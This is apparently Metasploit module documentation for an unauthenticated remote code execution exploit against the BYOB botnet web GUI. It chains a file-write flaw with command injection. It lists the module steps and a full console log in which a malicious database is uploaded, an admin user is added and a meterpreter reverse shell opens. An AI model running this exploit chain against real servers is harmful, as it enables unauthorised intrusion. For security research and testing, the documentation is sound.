 ## Vulnerable Application

The BYOB (Build Your Own Botnet) web GUI is vulnerable to two severe vulnerabilities:

- **CVE-2024-45256**: Unauthenticated arbitrary file write leading to
privilege escalation by adding a new admin user in the SQLite database.
- **CVE-2024-45257**: Authenticated command injection on the payload generation page.

As of version 2.1.7, these vulnerabilities remain **unpatched**.

### Discoverer:
- **Chebuya**
- Source:
  - [Blog Post](https://blog.chebuya.com/posts/unauthenticated-remote-command-execution-on-byob/)
  - [PoC and Exploit](https://github.com/chebuya/exploits/tree/main/BYOB-RCE)

### Install

#### Version 2.0 Setup

To install BYOB and test the vulnerabilities locally:

```bash
git clone https://github.com/malwaredllc/byob.git
cd byob/web-ui
./startup.sh
python3 run.py
```

> **Note**: Avoid using Docker for this lab as BYOB itself uses Docker for building payloads.

These vulnerabilities were tested only from the host machine.

## Verification Steps

To reproduce the Remote Code Execution (RCE) exploit:

1. Start `msfconsole`.
2. Do: `use exploit/unix/webapp/byob_unauth_rce`.
3. Do: `set RHOSTS <ip>`.
4. (Optional) Do: `set USERNAME <username>`.
5. (Optional) Do: `set PASSWORD <password>`.
6. Do: `set RPORT <port>`.
7. Do: `set TARGETURI <path>`.
8. Do: `set SRVPORT <port>`.
9. Do: `set FETCH_SRVHOST <ip>`.
10. Do: `run`.

The module will attempt to exploit the vulnerabilities and execute remote code.

## Options

No options

## Scenarios

### BYOB 2.0 - Unauthenticated Remote Code Execution

This example uses `cmd/linux/http/x64/meterpreter_reverse_tcp` to gain a reverse shell.

```
msf6 exploit(unix/http/byob_unauth_rce) > options 

Module options (exploit/unix/http/byob_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password for new admin
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   6000             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            no        Username for new admin
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      roTvDomWxW       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       IuxQhs           no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/byob_unauth_rce) > run http://192.168.1.36:5000
[*] Exploit running as background job 21.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/byob_unauth_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:6000/xK9IWU8ZxIpHV
[*] Payload is ready at /
[*] Generating malicious SQLite database.
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../buildyourownbotnet/database.db
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../instance/database.db
[+] Malicious database uploaded successfully.
[*] Registering a new admin user: admin:vZNqftVlFpmp
[+] Registered user !
[*] Logging in with the new admin user.
[+] Logged in successfully!
[*] Injecting payload via command injection.
[*] Received request at: / - Client Address: 192.168.1.36
[*] Sending response to 192.168.1.36 for /
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 192.168.1.36:52382) at 2024-09-21 03:46:21 +0200

msf6 exploit(unix/http/byob_unauth_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

In this scenario, the payload is injected into the vulnerable
`/api/payload/generate` endpoint, leading to command execution
on the target server.
The reverse shell connects back to Metasploit, providing remote access.
